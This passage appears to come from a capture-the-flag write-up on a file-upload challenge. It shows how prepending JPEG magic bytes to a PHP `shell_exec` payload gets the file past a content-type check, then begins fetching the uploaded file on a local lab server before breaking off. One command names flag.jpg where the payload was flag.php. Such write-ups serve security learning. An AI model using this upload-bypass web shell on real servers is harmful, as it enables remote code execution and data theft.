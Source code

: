 ```{% raw %}
source: https://www.reddit.com/r/oneliners/comments/78mp1h/rip_boiling_water_you_will_be_mist/
{% endraw %}```

Yep.

# Challenge 6

![RCE Cornucopia](/img/rce-cornucopia/rce6-000.png)

Uploading a valid JPG displays some info as expected.

![RCE Cornucopia](/img/rce-cornucopia/rce6-001.png)

Uploading a different file type results in an error.

![RCE Cornucopia](/img/rce-cornucopia/rce6-002.png)

We can infer that the server is actually looking at the file because the file name and extension don't seem to matter at all. A JPG with a `.php` extension is accepted, and a PHP file with a `.jpg` extension is rejected.

The most straightforward way of determining the type of a file is looking at the [magic number](https://en.wikipedia.org/wiki/List_of_file_signatures). For a JPG the first 4 bytes is generally sufficient.

Take the first 4 bytes of a valid JPG and copy into it's own file.

```{% raw %}
root@kali ~/A/corn# dd if=test.jpg of=jpgmagicnum.dat bs=1 count=4
4+0 records in
4+0 records out
4 bytes transferred in 0.000125 secs (31957 bytes/sec)
{% endraw %}```

`cat` the magic number plus the malicious PHP payload into a new file. Why use a PHP file extension and not JPG? We found earlier that it doesn't matter as far as the file being rejected or not, but it might matter in terms of whether the server will decide to execute our file as PHP.

```{% raw %}
root@kali ~/A/corn# cat flag.php 
<?php print shell_exec('cat /tmp/flag.txt'); ?>
root@kali ~/A/corn# cat jpgmagicnum.dat flag.jpg > pwn.php
{% endraw %}```

The magic number in front of our PHP payload is enough to fool the `file` command locally.

```{% raw %}
root@kali ~/A/corn# cat pwn.php 
????<?php print shell_exec('cat /tmp/flag.txt'); ?>
root@kali ~/A/corn# file pwn.php 
pwn.php: JPEG image data
{% endraw %}```

No metadata was found. Well I'm not surprised!

![RCE Cornucopia](/img/rce-cornucopia/rce6-003.png)

Checking the link...

```{% raw %}
# curl -v http://127.0.0.1:8086/uploads/420698287ca445da53fc584baca464ffa28bfa5421d9fd709df7b2785e6e3395.php
*   Trying 127.0.0.1...
* TCP_NODELAY set
```